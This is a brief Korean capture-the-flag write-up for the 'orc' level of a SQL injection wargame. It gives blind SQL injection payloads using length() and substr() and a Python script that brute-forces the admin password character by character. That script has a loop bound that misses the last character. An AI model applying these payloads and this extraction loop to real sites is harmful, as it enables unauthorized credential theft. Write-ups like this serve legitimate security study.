



# orc

* length 함수로 pw 길이 구하기
* substr 함수 이용   
<br/>

   
```
?pw=aa' or id='admin' and length(pw)='8
```   
pw 길이는 8이라는 것을 알 수 있다.   
<br/>   


```
?pw=aa' or id='admin' and substr(pw,1,1)='48
```   
substr 함수를 이용하면 pw를 하나씩 알아낼 수 있다.    
<br/>   

다음 코드로 pw를 구할 수 있다.   
```
import requests

headers = {'Cookie': 'PHPSESSID=사용자세션'}
url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?'

pw= ''
for i in range(1, 8):
	for j in range(48,122):
		value = "aa'or id='admin' and ord(substr(pw,{},1))={} #".format(i,j)
		params = {'pw':value}
		response = requests.get(url,params=params, headers=headers)
		print chr(j)
		if "<h2>Hello admin</h2>" in response.text:
			pw += chr(j)
			print '[+] find : ' + chr(j)
			break

print '[*] Password : ' + pw
```   

